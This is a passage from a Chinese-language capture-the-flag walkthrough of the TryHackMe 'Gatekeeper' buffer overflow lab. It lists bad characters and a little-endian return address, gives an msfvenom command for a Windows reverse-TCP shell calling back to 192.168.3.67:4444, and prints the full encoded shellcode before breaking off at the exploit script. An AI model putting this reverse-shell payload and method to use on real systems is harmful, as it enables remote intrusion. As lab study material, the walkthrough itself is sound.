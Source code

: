 ```POSSIBLY BAD CHARS:01 0a```
![alt 属性文本](https://github.com/maxzxc0110/hack-study/blob/main/img/shellcode%E5%9C%B0%E5%9D%80.png "shellcode")

有两个地址，我们选择第一个：080414c3

需要注意的是这个地址需要从后面往回写，即：\xc3\x14\x04\x08

利用msfvenom ，我们生成攻击的shellcode
> msfvenom -p windows/shell_reverse_tcp LHOST=192.168.3.67 LPORT=4444 EXITFUNC=thread -b "\x00\x01\x0a" -f c

```
┌──(root💀kali)-[~/tryhackme/Gatekeeper]
└─# msfvenom -p windows/shell_reverse_tcp LHOST=192.168.3.67 LPORT=4444 EXITFUNC=thread -b "\x00\x01\x0a" -f c
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
Found 11 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 351 (iteration=0)
x86/shikata_ga_nai chosen with final size 351
Payload size: 351 bytes
Final size of c file: 1500 bytes
unsigned char buf[] = 
"\xbf\x9b\xb8\x8f\xc4\xda\xcf\xd9\x74\x24\xf4\x58\x31\xc9\xb1"
"\x52\x83\xc0\x04\x31\x78\x0e\x03\xe3\xb6\x6d\x31\xef\x2f\xf3"
"\xba\x0f\xb0\x94\x33\xea\x81\x94\x20\x7f\xb1\x24\x22\x2d\x3e"
"\xce\x66\xc5\xb5\xa2\xae\xea\x7e\x08\x89\xc5\x7f\x21\xe9\x44"
"\xfc\x38\x3e\xa6\x3d\xf3\x33\xa7\x7a\xee\xbe\xf5\xd3\x64\x6c"
"\xe9\x50\x30\xad\x82\x2b\xd4\xb5\x77\xfb\xd7\x94\x26\x77\x8e"
"\x36\xc9\x54\xba\x7e\xd1\xb9\x87\xc9\x6a\x09\x73\xc8\xba\x43"
"\x7c\x67\x83\x6b\x8f\x79\xc4\x4c\x70\x0c\x3c\xaf\x0d\x17\xfb"
"\xcd\xc9\x92\x1f\x75\x99\x05\xfb\x87\x4e\xd3\x88\x84\x3b\x97"
"\xd6\x88\xba\x74\x6d\xb4\x37\x7b\xa1\x3c\x03\x58\x65\x64\xd7"
"\xc1\x3c\xc0\xb6\xfe\x5e\xab\x67\x5b\x15\x46\x73\xd6\x74\x0f"
"\xb0\xdb\x86\xcf\xde\x6c\xf5\xfd\x41\xc7\x91\x4d\x09\xc1\x66"
"\xb1\x20\xb5\xf8\x4c\xcb\xc6\xd1\x8a\x9f\x96\x49\x3a\xa0\x7c"
"\x89\xc3\x75\xd2\xd9\x6b\x26\x93\x89\xcb\x96\x7b\xc3\xc3\xc9"
"\x9c\xec\x09\x62\x36\x17\xda\x4d\x6f\x14\x59\x26\x72\x1a\x4c"
"\xea\xfb\xfc\x04\x02\xaa\x57\xb1\xbb\xf7\x23\x20\x43\x22\x4e"
"\x62\xcf\xc1\xaf\x2d\x38\xaf\xa3\xda\xc8\xfa\x99\x4d\xd6\xd0"
"\xb5\x12\x45\xbf\x45\x5c\x76\x68\x12\x09\x48\x61\xf6\xa7\xf3"
"\xdb\xe4\x35\x65\x23\xac\xe1\x56\xaa\x2d\x67\xe2\x88\x3d\xb1"
"\xeb\x94\x69\x6d\xba\x42\xc7\xcb\x14\x25\xb1\x85\xcb\xef\x55"
"\x53\x20\x30\x23\x5c\x6d\xc6\xcb\xed\xd8\x9f\xf4\xc2\x8c\x17"
"\x8d\x3e\x2d\xd7\x44\xfb\x4d\x3a\x4c\xf6\xe5\xe3\x05\xbb\x6b"
"\x14\xf0\xf8\x95\x97\xf0\x80\x61\x87\x71\x84\x2e\x0f\x6a\xf4"
"\x3f\xfa\x8c\xab\x40\x2f";

```


把生成的shellcode放到我们最后一个攻击脚本exploit3.py中
```
import socket
